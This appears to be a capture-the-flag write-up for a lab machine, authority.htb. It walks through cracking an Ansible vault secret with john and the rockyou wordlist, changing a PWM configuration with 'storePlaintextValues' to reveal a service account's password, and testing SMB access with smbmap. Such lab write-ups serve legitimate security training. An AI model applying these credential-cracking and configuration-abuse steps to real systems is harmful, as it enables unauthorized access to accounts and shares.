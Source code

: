 

![](images/pwm_login.png)

Now that we have a general direction. The next question is.. where is the next clue ?

![](images/svc_pwm.png)

https://github.com/pwm-project/pwm
![](images/tasks.png)

Now, we know exactly which version of PWN we're running and there's no exploit available  in the wild for pwm v2.03

![](images/secrets.png)

Awesome,  we've made progress.. and now how do we decrypt it ? 

 I found this two resources online that were useful
 
https://www.bengrewell.com/cracking-ansible-vault-secrets-with-hashcat/

https://ppn.snovvcrash.rocks/pentest/infrastructure/devops/ansible

We extracted the vaults blob containing the encrypted password and cracked the secret AES key using john.

```sh
ansible2john pwd.vault | tee pwd.hash
```
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt  pwd.hash
```

	AES Decryption Key: !@#$%^&*

![](images/secret_key.png)

We need to install ansible to get access to the ansible-vault command
```sh
sudo apt install -y ansible 
```

And we've compromised a login using the secret key!
```
username: svc_pwm
password: pWm_@dm!N_!23
```
![](images/svc_pwm_confirmed.png)
![](images/password.png)

Now have access to pwm's config editor!

![](images/config_editor.png)

---

_We got some bad news! svc_pwm is not a domain user_

![](images/kerberos.png)

However, now we have access to pwm admins interface. Let's see what we can do

![](images/sensitivy.png)

We download the xml file and found a mention to  user svc_ldap and a encrypted password.

![](images/svc_ldap.png)

Good news svc_ldap is a domain user! we're getting closer to our first objective!

![](images/goodnews.png)

More good news, there's a weird ass comment on the xml file that says that we can force the document to be generated containing credentials in clear text by adding a new
property key!  

![](images/question.png)

Let's try this   

```
<property key="storePlaintextValues">true</property>
```
![](images/question2.png)

Now we upload the modified configuration file.  

![](images/upload.png)

Oh my goodness it worked!!

![](images/clear.png)

```
username: svc_ldap@authority.htb
password: lDaP_1n_th3_cle4r!
```


Let us test it

```sh
smbmap -d authority.htb \
	-u svc_ldap \
	-p 'lDaP_1n_th3_cle4r!' \
	-H authority.authority.htb
```

![](images/valid.png)

Perfect, we got the objective 1 and now we also have access to the "Department Shares"
